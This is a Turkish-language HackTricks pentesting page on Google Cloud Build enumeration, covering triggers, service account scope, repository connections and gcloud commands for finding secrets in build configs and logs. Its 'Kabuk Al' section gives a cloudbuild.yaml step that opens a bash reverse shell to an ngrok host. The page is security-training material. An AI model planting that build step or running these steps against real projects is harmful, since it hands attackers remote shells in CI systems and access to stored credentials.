 # GCP - Cloud Build Enum

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na(https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

## Temel Bilgiler

Google Cloud Build, **yazılım derleme** ve sürüm süreçlerini otomatikleştiren, **kaynak kod depolarıyla entegre olan** ve geniş bir programlama dilini destekleyen bir yönetilen CI/CD platformudur. Geliştiricilere kodu otomatik olarak derleme, test etme ve dağıtma imkanı sunarken derleme adımlarını ve iş akışlarını özelleştirmelerine olanak tanır.

Her Cloud Build Tetikleyicisi, bir **Cloud Deposu ile ilişkilidir veya harici bir depo ile doğrudan bağlantılıdır** (Github, Bitbucket ve Gitlab).

{% hint style="success" %}
Buradan veya Cloud Deposolarından Github/Bitbucket belirteci çalmak için herhangi bir yol göremedim çünkü depo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişilir ve Github istemci tarafından erişilmez.
{% endhint %}

### Olaylar

Cloud Build, şu durumlarda tetiklenebilir:

* **Bir şubeye itme**: Şubeyi belirtin
* **Yeni bir etiket itme**: Etiketi belirtin
* **Çekme isteği**: PR'yi alan şubeyi belirtin
* **Manuel Çağrı**
* **Pub/Sub mesajı**: Konuyu belirtin
* **Webhook olayı**: Bir HTTPS URL'si açığa çıkaracak ve istek bir sırla kimlik doğrulaması yapmalıdır

### Yürütme

3 seçenek vardır:

* Yürütülecek komutları belirten bir yaml/json. Genellikle: `/cloudbuild.yaml`
* Web konsolunda ve cli'de "içe" belirtilebilecek tek seçenek
* En yaygın seçenek
* Kimlik doğrulamasız erişim için ilgili
* Derlemek için bir **Dockerfile**
* Derlemek için bir **Buildpack**

### SA İzinleri

**Hizmet Hesabı, `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm ayrıcalıkları kullanabilir.** **SA belirtilmediğinde** (örneğin, gönderme yapılırken) **varsayılan SA** `<proj-numarası>@cloudbuild.gserviceaccount.com` **kullanılacaktır.**

Varsayılan olarak hiçbir izin verilmez ancak bazı izinler vermek oldukça kolaydır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build'in **derleme yürütümleri için onay gerektirmesi** mümkündür (varsayılan olarak devre dışı bırakılmıştır).

### PR Onayları

Tetikleyici PR olduğunda **herkesin genel depolara PR yapabileceği** için sadece **herhangi bir PR ile tetikleyicinin yürütülmesine izin vermek çok tehlikeli olabilir**. Bu nedenle, varsayılan olarak yürütme yalnızca **sahipler ve işbirlikçiler için otomatiktir** ve diğer kullanıcıların PR'leri ile tetikleyiciyi yürütmek için bir sahip veya işbirlikçinin `/gcbrun` yorum yapması gerekir.

<figure><img src="../../../.gitbook/assets/image (150).png" alt="" width="563"><figcaption></figcaption></figure>

### Bağlantılar ve Depolar

Bağlantılar şunlar üzerinden oluşturulabilir:

* **GitHub:** Github belirteci almak için izin isteyen bir OAuth iletişim kutusu gösterecektir ve bu belirteç **Secret Manager içinde saklanacaktır.**
* **GitHub Enterprise:** Bir **GithubApp** yüklemek için istekte bulunacaktır. GitHub Enterprise ana bilgisayarınızdan bir **kimlik doğrulama belirteci** oluşturulacak ve bu proje içinde bir **Secret Manager** sırrı olarak saklanacaktır.
* **GitLab / Enterprise:** **API erişim belirteci ve Okuma API erişim belirteci** sağlamanız gerekecek ve bunlar **Secret Manager içinde saklanacaktır.**

Bir bağlantı oluşturulduğunda, Github hesabının erişimine sahip olduğu depoları **bağlamak için kullanabilirsiniz.**

Bu seçenek şu düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Bu yöntemle bağlanan depoların **yalnızca 2. nesil kullanarak Tetikleyicilerde** mevcut olduğunu unutmayın.
{% endhint %}

### Bir Depoyu Bağla

Bu bir **`bağlantı`** ile aynı değildir. Bu, **erişim sağlamanın farklı yollarını** sağlar **Github veya Bitbucket** depolarına ancak **bir bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi oluşturur (1. nesil).**

Bu seçenek şu düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, tetikleyici için dosyaları saklamak için **yeni bir depolama oluşturacaktır**. Bu örneğin, GCP'nin sunduğu örnekte olduğu gibi olur:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Kabuk Al

Kullanılacak dosyaları depolamak için [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) adında bir depolama kovası oluşturulmuştur.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Cloud Build içinde gcloud'u yükleyin:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Sıralama

**Yapılandırma ve günlüklerde hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Saldırı Sonrası Aşama

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
